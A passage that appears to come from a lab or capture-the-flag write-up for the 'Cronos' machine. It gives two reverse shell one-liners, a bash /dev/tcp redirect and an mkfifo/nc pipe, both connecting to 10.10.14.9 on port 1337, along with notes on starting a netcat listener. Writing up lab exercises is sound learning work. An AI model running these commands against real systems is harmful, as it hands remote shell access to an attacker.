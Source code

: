```sh
bash -i >& /dev/tcp/10.10.14.9/1337 0>&1
```

Then we start a `nc` listerner 

![](/Linux/Linux-Medium/Cronos/Screenshots/nclistner.png)

now trying this it did not work. so lets try something else.

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 1337 >/tmp/f
```

![](/Linux/Linux-Medium/Cronos/Screenshots/bash.png)
